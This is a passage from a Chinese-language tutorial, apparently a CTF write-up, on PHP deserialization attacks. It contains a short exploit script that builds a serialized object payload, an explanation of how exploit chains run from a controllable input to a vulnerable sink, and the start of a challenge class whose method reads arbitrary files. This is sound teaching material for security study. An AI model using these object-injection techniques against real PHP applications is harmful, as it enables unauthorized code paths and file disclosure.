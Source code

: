 ```php
    function action(){
        echo "flag is not here";
    }
}

?>
```

注意到action方法重名，可以构造exp

```php
<?php

class Main{
    public $classObj;
    function __construct(){
        $this->classObj = new NotAccessable();
    }
}

class NotAccessable{
}

$str = serialize(new Main());
echo $str;// O:4:"Main":1:{s:8:"classObj";O:13:"NotAccessable":0:{}}
?>
```

可以看到成功执行。

![](https://ww1.yunjiexi.club/2020/03/16/GQmWE.png)

### 利用链

在代码审计的过程中，我们穿越在复杂的逻辑迷宫里。当我们发现了漏洞函数，一点点的观察：哪里调用了这个函数？可不可以最终控制函数的参数？一点点地溯源下去，最终发现了我们可以控制的输入点。在此过程中，用到的函数层层调用像链条一样连接起来，便是利用链。

我认为利用链有三要素：可控点，中间过滤，利用点。

可控点和利用点都很容易理解，重要的是中间过滤，我们常常需要把这些过滤记下来，在可控点进行bypass。利用点决定了我们能**做什么**，中间过滤决定了要**怎么做**，而可控点则是点出了我们**在哪做**。实际操作的时候，我们只要明确这三个问题，就不会迷失方向。


## 实践与技巧

如果利用链可以从**谁能调用我？**和**我能调用谁？**两个角度出发，从后往前+从前往后一起遍历，最后中间相遇。

审计CMS时，则往往是从类中寻找可以利用的漏洞，然后直接全局寻找能够触发unserialize的代码。

### 中规中矩的题目

```php
<?php
//flag is in flag.php
error_reporting(1);
class Read {
    public $var;
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));//[TARGET 1]
        return $text;
    }
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}
```